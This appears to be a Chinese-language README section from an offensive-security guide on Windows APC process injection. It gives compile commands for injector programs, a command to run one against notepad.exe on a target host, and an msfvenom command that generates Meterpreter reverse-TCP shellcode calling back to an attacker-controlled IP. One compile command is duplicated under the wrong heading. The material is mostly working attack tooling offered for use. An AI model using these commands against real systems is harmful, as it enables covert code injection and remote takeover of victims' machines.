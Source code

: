 ## APC注入

### Early Bird APC队列代码注入

[calc.cpp](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%BA%94%E7%AB%A0/APC/calc.cpp)

编译
```Bash
x86_64-w64-mingw32-gcc calc.cpp -o evil_calc.exe -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```

### NtTestAlert函数

[nttest.cpp](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%BA%94%E7%AB%A0/APC/nttest.cpp)

编译
```Bash
x86_64-w64-mingw32-gcc calc.cpp -o evil_calc.exe -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```

### 远程线程中的APC注入

[rev.cpp](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%BA%94%E7%AB%A0/APC/rev.cpp)

编译
```Bash
x86_64-w64-mingw32-g++ -O2 rev.cpp -o rev.exe -mconsole -I /usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive >/dev/null 2>&1
```

目标主机
```powershell
.\rev.exe notepad.exe
```

### Metasploit

Shellcode
```Bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=攻击者主机IP地址 LPORT=4444 -f c
```

[msf.cpp](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%BA%94%E7%AB%A0/APC/msf.cpp)

编译
```Bash
x86_64-w64-mingw32-g++ -O2 msf.cpp -o msf.exe -mconsole -I /usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```
